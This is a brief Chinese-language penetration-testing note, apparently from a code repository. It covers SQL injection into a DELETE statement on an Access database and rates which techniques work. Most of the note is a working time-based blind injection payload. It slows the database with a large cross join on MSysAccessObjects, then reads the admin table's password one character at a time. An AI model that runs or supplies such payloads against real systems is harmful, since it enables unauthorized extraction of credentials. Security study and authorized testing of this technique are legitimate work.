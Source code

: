 1、报错注入  
2、UNION注入-不可用
```
delete from下where子句中不能使用union
```
3、堆叠注入-不可用  
4、布尔盲注-不可用
```
界面无正确或错误显示
```
5、时间盲注-可用：  
```
delete from admin where id=7 and (SELECT count(*) FROM MSysAccessObjects AS T1, MSysAccessObjects AS T2, MSysAccessObjects AS T3, MSysAccessObjects AS T4, MSysAccessObjects AS T5, MSysAccessObjects AS T6, 
MSysAccessObjects AS T7,MSysAccessObjects AS T8,MSysAccessObjects AS T9,MSysAccessObjects AS T10,MSysAccessObjects AS T11,MSysAccessObjects AS T12)>0 and asc(mid((select top 1 password from admin),1,1))=117
```
此payload的执行需要where子句中的条件都为true，延时大概49s  
其中，如下语句造成延时：
```
(SELECT count(*) FROM MSysAccessObjects AS T1, MSysAccessObjects AS T2, MSysAccessObjects AS T3, MSysAccessObjects AS T4, MSysAccessObjects AS T5, MSysAccessObjects AS T6, 
MSysAccessObjects AS T7,MSysAccessObjects AS T8,MSysAccessObjects AS T9,MSysAccessObjects AS T10,MSysAccessObjects AS T11,MSysAccessObjects AS T12)>0
```
如下语句测试数据：
```
asc(mid((select top 1 password from admin),1,1))=117
```
参考链接：  
https://www.freebuf.com/news/39925.html
